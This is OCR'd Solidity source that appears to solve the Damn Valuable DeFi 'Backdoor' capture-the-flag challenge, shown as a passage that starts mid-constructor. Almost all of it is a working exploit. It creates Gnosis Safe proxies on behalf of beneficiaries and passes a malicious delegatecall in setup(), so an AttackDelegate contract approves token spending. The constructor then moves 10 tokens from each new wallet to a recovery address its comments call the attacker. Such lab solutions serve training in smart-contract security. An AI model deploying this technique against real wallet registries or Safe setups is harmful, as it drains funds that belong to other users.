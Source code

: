 ```solidity
        address _masterCopy,
        address _walletFactory,
        address _registry,
        address _token,
        address _recovery,
        address[] memory _beneficiaries
    ) {
        singletonCopy = _masterCopy;
        walletFactory = _walletFactory;
        walletRegistry = _registry;
        dvt = DamnValuableToken(_token);
        recovery = _recovery;

        // A 2nd contract is used because of the restriction on player tx count
        AttackDelegate attackDelegate = new AttackDelegate(dvt);

        for (uint256 i = 0; i < 4; i++) {
            address[] memory beneficiary = new address[](1);
            beneficiary[0] = _beneficiaries[i];

            // Create the GnosisSafe::setup() data that will be passed to the proxyCreated function in WalletRegistry
            bytes memory _initializer = abi.encodeWithSelector(
                Safe.setup.selector, // Selector for the setup() function call
                beneficiary, // _owners = List of Safe owners
                1, // _threshold = Number of required confirmations for a Safe transaction
                address(attackDelegate), // to = Contract address for optional delegate call.
                abi.encodeWithSignature("delegateApprove(address)", address(this)), // data = Data payload for optional delegate call
                address(0), // fallbackHandler = Handler for fallback calls to this contract
                0, // paymentToken = Token that should be used for the payment (0 is ETH)
                0, // payment = Value that should be paid
                0 // paymentReceiver = Adddress that should receive the payment (or 0 if tx.origin)
            );

            // Create new proxies on behalf of other users
            SafeProxy _newProxy = SafeProxyFactory(walletFactory).createProxyWithCallback(
                singletonCopy, // _singleton = Address of singleton contract
                _initializer, // initializer = Payload for message call sent to new proxy contract
                i, // saltNonce = Nonce that will be used to generate the salt to calculate the address of the new proxy contract
                IProxyCreationCallback(walletRegistry) // callback = Cast walletRegistry to IProxyCreationCallback
            );

            // Transfer to attacker
            dvt.transferFrom(address(_newProxy), recovery, 10 ether);
        }
    }
}

contract AttackDelegate {
    DamnValuableToken private immutable dvt;

    constructor(DamnValuableToken _dvt) {
        dvt = _dvt;
    }

    function delegateApprove(address _spender) external {
        dvt.approve(_spender, 10 ether);
    }
}

```